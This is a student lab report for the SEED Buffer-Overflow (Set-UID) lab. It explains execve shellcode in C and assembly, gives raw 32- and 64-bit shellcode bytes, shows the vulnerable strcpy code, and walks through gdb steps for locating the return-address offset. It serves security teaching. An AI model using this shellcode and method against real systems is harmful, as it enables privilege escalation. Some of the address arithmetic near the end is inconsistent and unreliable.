








# SEED Labs Tasks for _Buffer-Overflow Attack Lab - Set-UID Version_

## (Work done in Week #5)

## General Information

This week, we learnt how to use a buffer-overflow vulnerability to perform an attack which would start a shell during the execution of our program. Ultimately, we understood how to attack using C, Python and 32/64-bit Assembly shellcode.

## Task 1: Getting Familiar with shellcode

In the first task, we had to understand how to launch the shell using a C shellcode by transmitting our command using `execve()`.

```c
int main() {
  char *name[2];
  name[0] = "/bin/sh";
  name[1] = NULL;
  execve(name[0], name, NULL);  // restarts process with shell launched
}
```

If we execute the previous code, we secure a shell interface, where we can write our commands (`ls`, `pwd`, etc.)

But we cannot use the binary code resulting from compiling the C code as the shellcode, because of several reasons, such as extra overhead (from calls to the standard library) and the fact that the code is not position-independent.

Instead we need to insert assembly code into the memory so that the program instructions understand the exploit and launches the shell in the stack:

```assembly
# 32-bit Shellcode
# Store the command on stack
xor eax, eax
push eax
push "//sh"
push "/bin"
mov ebx, esp ; ebx --> "/bin//sh": execve()’s 1st argument

# Construct the argument array argv[]
push eax ; argv[1] = 0
push ebx ; argv[0] --> "/bin//sh"
mov ecx, esp ; ecx --> argv[]: execve()’s 2nd argument

# For environment variable
xor edx, edx ; edx = 0: execve()’s 3rd argument

# Invoke execve()
xor eax, eax ;
mov al, 0x0b ; execve()’s system call number
int 0x80
```

One of the ways we can do that is by using the binary code generated from the code above:

```c
// call_shellcode.c

// Shellcode is CPU-architecture dependent (32-bit or 64-bit)
const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
  char code[500];
  strcpy(code, shellcode); // Copy the shellcode to the stack
  int (*func)() = (int(*)())code;
  func(); // Invoke the shellcode from the stack
  return 1;
}
```

If we compile `call_shellcode.c` using `make`, two versions of binary files will be available to execute: `a32.out` (32-bit) and `a64.out` (64-bit). Afterwards, choosing either one of them to compile, will run a shell interface and we will be able to interact with it using shell commands.



Image 1: Compiling and running the 32-bit shellcode

> Note: Makefile compiles the program with `execstack` option, allowing our code to be executed from the stack. Otherwise, the exploit would've failed.

## Task 2: Understanding the Vulnerable Program

In the second task, we are asked to exploit a buffer-overflow vulnerability. To succeed in this task, we are given a vulnerable program, `stack.c`, where a big buffer gets its contents copied to a smaller size buffer with no restrictions of neither inputs nor content size. In other words, `strcpy()` doesn't check if `BUF_SIZE` is bigger than the content capacity, leading to overflow of string (or possibly malicious code) to a restricted area of the stack.

Moreover, the file `stack.c` accepts a file named `badfile` to fill the contents of the original buffer of `517 Bytes`. Therefore, if we fill `badfile` with malicious code, we are able to exploit the system, hence obtaining a shell interface.

This is how the vulnerability works in `stack.c`:

```c
char str[517];
char buffer[BUF_SIZE]; /* Size depending on the group number. Since we are G02, then BUF_SIZE = 100 + 8*2  */
FILE *badfile;
badfile = fopen("badfile", "r");
fread(str, sizeof(char), 517, badfile);
strcpy(buffer, str);  // Vulnerability here
```

Compilation of `stack.c` requires both the StackGuard and the non-executable stack protections to be turned off. Besides, this program must be a root-owned Set-UID program. Luckily, `Makefile` already does that work for us.

## Task 3: Launching Attack on 32-bit Program (Level 1)

To make sure our exploit works, first we need to acquire certain addresses. In particular, the `buffer’s starting position` and `return-address position` are essential to obtain the difference between them. Debugging the code using the `-g` flag while compiling, will shows us those addresses.

After doing the steps shown:

```sh
$ touch badfile    // Create an empty badfile
$ gdb stack-L1-dbg
gdb-peda$ b bof    // Set a break point at function bof()
gdb-peda$ run      // Start executing the program
gdb-peda$ next
gdb-peda$ p $ebp
gdb-peda$ p &buffer
gdb-peda$ quit
```

We got `buffer’s starting position` and `return-address position`:



Image 2: Debugging the program to get the addresses

#### Buffer’s starting position = 0xffffcae8

#### Return-address position = 0xffffca7c

> Note 1: the command `next` is relevant to get the ebp register with the current stack frame. Without it, we would obtain the caller's ebp value, since gdb stops right before ebp changes value.
> Note 2: the frame pointer value differs executed normally or in gdb. This is due to gdb pushing some environment data into the stack before running the debugged program. Consequently, executing normally will result in a larger frame pointer value.

As we're done acquiring the addresses, we had to prepare a Python script named `exploit.py` to convert our shellcode to binary and write it inside `badfile`.

To understand how should we attack the system, let us first summarize how the memory looks like after the buffer overflows:

```sh
  +--------------------------+  <-- Higher Memory Address
  |    Data not affected     |
  +--------------------------+
  | Data affected by         |  <-- Overflow reaches this point
  | overflow                 |
  +--------------------------+
  | Return Address           |  <-- Return address overwritten
  +--------------------------+
  | EBP (Stack Base Pointer) |  <-- EBP can be overwritten by overflow
  +--------------------------+
  | Buffer                   |  <-- Buffer where data is stored
  +--------------------------+
  | ...                      |
  | Stack continues          |
  +--------------------------+  <-- Lower Memory Address
```

The steps to prepare the attack are the following:

1. Need to put our shellcode above the stack.
2. Redefine return address to point to shellcode instead and execute it.

#### 1) Need to put our shellcode above the stack

We tried using the 32-bit exploit. For that, we substituted the empty shellcode variable with the binary code from the first task. Of course, the 64-bit would still work, however the code would need a few tweaks to run properly.



Image 3: Shellcode-related part of the Python script to exploit the system

We chose to place our code in the data area where overflow will happen. In this case, 200 seemed feasible since our vulnerable buffer had less than 150 Bytes, already allowing an overflow.

The rest of the buffer will be filled with NOP's (`0x90`) to redirect memory towards shellcode execution.

#### 2) Define where the return address should point to execute the shellcode

For this step, we had to find an address where, if the return address gets executed, then it needs to be able to find the shellcode. We know that return address is above ebp, and that anything above that is outside the stack, so using ebp to find a suitable place is helpful. The addition of start made a possible return address.

On the other hand, we also had to find the memory address containing the return address, so we could modify it with the above information when filling the buffer. Taking a look at the memory image, we can see that return address is above ebp, in particular, 4 bytes above. Knowing that the buffer starts at `0xffffca7c`, then return address should be located `ebp - buffer address + 4` from the beginning of the buffer.

> Note: `ebp - buffer address` indicates the buffer content to skip over the stack data, going directly to where the ebp is located.



Image 4: Return address-calculation part of the Python script to exploit the system

### Executing the code

We then ran the `exploit.py` script, and we were able to get a shell interface.



Image 5: Running the exploit

## Question 2: Memory Region

Having completed the exploit, it is important to understand how the buffer looks like in detail, in particular, the correlation between the shellcode start address and the return address.

Debugging the program, we see that the NOPs start around the address `0xffffcf13`.



Image 6: NOPs starting address

And the shellcode is a bit further up.



Image 7: Shellcode injected in an address above the NOPs

On the other hand, the return address can be found lower, closer to the start of the buffer. It points to the start of the NOPs, leading to the execution of the shellcode.



Image 8: Return address pointing to the NOPs

We can find the return address by calculating the offset (decimal conversion used to make the calculations easier):

```sh
.------------------------------------.
|Hexadecimal          | Decimal      |
|ebp = 0xffffcae8     | 4 294 953 704|
|buffer = 0xffffca7c  | 4 294 953 596|
.------------------------------------.
ebp - buffer = 108 (decimal) // Buffer starts at 108 bytes from ebp
ebp - buffer + 4 = 112 (decimal) // Return address is 4 bytes above ebp
Address of buffer[112] == 4 294 953 708 + 4 == 4 294 953 712 (decimal) == 0xffffcaf0 // Where return address is
```
